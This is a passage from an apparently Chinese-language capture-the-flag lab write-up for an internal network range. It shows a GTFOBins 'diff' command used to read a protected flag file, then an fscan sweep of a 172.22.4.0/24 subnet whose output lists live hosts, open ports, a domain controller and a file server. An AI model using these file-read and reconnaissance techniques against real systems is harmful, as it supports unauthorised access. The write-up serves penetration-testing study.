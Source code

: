 利用 diff 命令

https://gtfobins.github.io/gtfobins/diff/

```shell
diff --line-format=%L /dev/null /home/flag/flag01.txt
```

![image-20230809152110151](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091521175.png)

## flag02

内网 fscan

```shell
$ ./fscan -h 172.22.4.0/24
   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.4.19     is alive
(icmp) Target 172.22.4.7      is alive
(icmp) Target 172.22.4.36     is alive
(icmp) Target 172.22.4.45     is alive
[*] Icmp alive hosts len is: 4
172.22.4.36:21 open
172.22.4.7:88 open
172.22.4.36:3306 open
172.22.4.45:445 open
172.22.4.7:445 open
172.22.4.19:445 open
172.22.4.45:139 open
172.22.4.7:139 open
172.22.4.19:139 open
172.22.4.45:135 open
172.22.4.7:135 open
172.22.4.19:135 open
172.22.4.45:80 open
172.22.4.36:80 open
172.22.4.36:22 open
[*] alive ports len is: 15
start vulscan
[*] NetInfo:
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] NetInfo:
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] NetInfo:
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] 172.22.4.7  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.4.45     XIAORANG\WIN19                
[*] NetBios: 172.22.4.7      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
```